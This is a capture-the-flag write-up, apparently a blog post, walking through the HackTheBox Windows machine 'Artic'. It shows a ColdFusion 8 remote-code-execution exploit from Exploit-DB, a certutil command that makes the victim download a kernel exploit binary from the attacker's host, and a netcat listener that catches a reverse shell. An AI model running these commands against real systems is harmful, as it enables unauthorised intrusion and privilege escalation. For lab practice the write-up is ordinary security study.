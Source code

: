 ```yaml
---
categories:
- CTF
layout: post
image:
  path: preview.png
media_subpath: /assets/posts/2025-06-26-artic-hackthebox
tags:
- hackthebox
- windows
- kernel exploit
- exposed version
- CVE
title: Artic @ HackTheBox
---
```


Artic is a easy-difficulty [hackthebox.eu](https://www.hackthebox.eu) machine. An exposed admin login portal exposes a version number which once exploited, gains initial access to the internal server. Root access is gained by using a kernel exploit.

## User & Root Flag
This post is a walkthrough for Artic, an Medium machine on [hackthebox.eu](https://www.hackthebox.eu). 

The initial scan (`nmap -Pn -n -sC -sV -p- 10.129.28.252`) shows the following results:
```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## User
Visiting port 8500 and visiting the CFIDE folder, eventually you will find `administrator/enter.cfm`.<br>
The site exposes `Cold Fusion 8`, when looking this up reveals a RCE exploit.<br>
`https://www.exploit-db.com/exploits/50057`

```
locate 50057.py
/usr/share/exploitdb/exploits/cfm/webapps/50057.py

cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .

python 50057.py // remember to edit the file to include your lhost/lport & rhosts etc.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

## Root
Checking systeminfo with `systeminfo` reveals an out-dated OS version.
```
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          1/7/2025, 11:11:40 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.051 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.220 MB
Virtual Memory: In Use:    1.065 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.28.252
```
Using windows-exploit-suggestor, you find the system is vulnerable to `MS10-059`.
this exploit can be found on: `https://github.com/SecWiki/windows-kernel-exploits`<br>
Download & upload this file to the victim machine.<br>
```
[YOU] python3 -m http.server 80 // host file
[VICTIM] certutil.exe -urlcache -f http://your_ip/MS10-059.exe MS10-059.exe 
[YOU] nc -lvnp 1234
[VICTIM] .\MS10-059.exe your_ip 1234
```
![root-flag](root.png)